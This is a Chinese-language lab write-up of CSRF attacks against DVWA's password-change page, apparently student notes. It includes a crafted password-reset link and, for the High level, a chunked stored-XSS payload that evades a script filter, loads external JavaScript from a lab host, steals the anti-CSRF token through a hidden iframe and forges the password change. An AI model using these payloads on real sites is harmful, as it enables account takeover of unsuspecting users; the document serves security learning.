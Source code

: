 ![image-20211109124616978](https://cdn.jsdelivr.net/gh/munian08/drawingbed@main/img/202207031959836.png)

对于CSRF有三种攻击方式：直接构造链接、构造短链接和构造攻击页面。

**①直接构造链接：**

`http://192.168.112.141/dvwa/vulnerabilities/csrf/?password_new=123&password_conf=123&Change=Change#`

点击后：

![image-20211109125016304](https://cdn.jsdelivr.net/gh/munian08/drawingbed@main/img/202207031959937.png)

在login.php界面只有输入新密码才能进入。

**②构造短链接：**

可以通过一些在线短链接生成器构造：http://topurl.cn/9qW（我在测试的时候是可以的，但是我不确定该短链接的生命周期，好像免费生成的生命周期都比较短，永久短链接需要付费生成）

![image-20211109210234896](https://cdn.jsdelivr.net/gh/munian08/drawingbed@main/img/202207032000037.png)



#### （2）High

先根据老师给的攻略做High（因为做medium的时候遇到了一些问题）。

看源码：

![image-20211110111443040](https://cdn.jsdelivr.net/gh/munian08/drawingbed@main/img/202207032000266.png)

High中增加了Anti-csrf token机制，由checkToken函数来实现，用户每次访问更改密码页面时，服务器会返回一个随机的token，之后每次向服务器发起请求，服务器会优先验证token，如果token正确，那么才会处理请求。

因为在XSS（Stored）中可以利用$name做注入，可以用来配合CSRF重置密码。

由于后端数据库中name只能写入100个字符，所以这里需要把payload分成多份，多次注入才能达到效果。

payload：

```html
<svg/onload="setTimeout(function(){s='&#115;&#99;&#114;&#105;&#112;&#116;'},3000)">
<svg/onload="setTimeout(function(){j=document.createElement(s)},4000)">
<svg/onload="setTimeout(function(){j.src='http://192.168.112.136:8080/x.js'},5000)">
<svg/onload="setTimeout(function(){document.body.appendChild(j)},6000)">
```

因为代码执行的时序不同，所以需要`setTimeout()`进行延时，让每一句等待的时间不同。

为了减少payload的数量，需要引入外部js，所以需要`<script src="URL">`。

先通过`document.createElement()`创建一个`<script>`，但是由于有正则表达式过滤，所以需要script编码为`&#115;&#99;&#114;&#105;&#112;&#116; `。

再把自己写的js代码放在本地服务器，url写进src：`j.src='http://192.168.112.136:8080/x.js'`。

最后通过`document.body.appendChild`将上面创建的j元素加入到body的尾部。

`x.js`代码：

```js
//创建<iframe>元素
ifr = document.createElement('iframe');
//../csrf为相对地址
ifr.src="../csrf";
//隐藏iframe
ifr.hidden=1;
//把创建的ifr元素加入body的尾部
document.body.appendChild(ifr);
//从下图的网页源代码中可以看到user_token，通过getElementsByName()获取值，放入伪造的链接
setTimeout(function(){f=frames[0];t=f.document.getElementsByName('user_token')[0].value;i=document.createElement('img');i.src='../csrf/?password_new=admin&password_conf=admin&Change=Change&user_token='+t;},3000)
```